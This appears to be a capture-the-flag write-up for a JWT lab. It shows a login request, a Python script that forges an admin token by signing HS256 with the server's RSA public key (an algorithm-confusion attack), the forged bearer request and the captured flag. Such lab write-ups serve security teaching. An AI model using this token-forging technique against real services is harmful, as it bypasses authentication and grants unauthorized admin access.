 
```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password5" }' http://MACHINE_IP/api/v1.0/example5


{
  "public_key": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.kR4DjBkwFE9dzPNeiboHqkPhs52QQgaHcC2_UGCtJ3qo2uY-vANIC6qicdsfT37McWYauzm92xflspmSVvrvwXdC2DAL9blz3YRfUOcXJT03fVM7nGp8E7uWSBy9UESLQ6PBZ_c_dTUJhWg35K3d8Jao2czC0JGN3EQxhcCGtxJ1R7T9tzBMaqW-IRXfTCq3BOxVVF66ePEfvG7gdyjAnWrQFktRBIhU4LoYwem3UZ7PolFf0v2i6jpnRJzMpqd2c9oMHOjhCZpy_yJNl-1F_UBbAF1L-pn6SHBOFdIFt_IasJDVPr1Ybv75M26o8OBwUJ1KK_rwX41y5BCNGcks9Q"
}

```

`usr/lib/python3/dist-packages/jwt/algorithms.py`

`jasonweb.py`
```python
import jwt 

public_key = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip" 

payload = { 'username' : 'user', 'admin' : 1 } 
access_token = jwt.encode(payload, public_key, algorithm="HS256") 
print (access_token)
```

```

b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.7jJBvWpF9JT4DdeUWnl0o7imBV0wa0HTDPRMavGbPyU'


# update verify.sh

curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.7jJBvWpF9JT4DdeUWnl0o7imBV0wa0HTDPRMavGbPyU' http://10.10.35.117/api/v1.0/example5?username=admin

# run verify.sh

flag for example 5

{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f592dfe2-ec65-4514-a135-70ba358f22c4}"
}

```
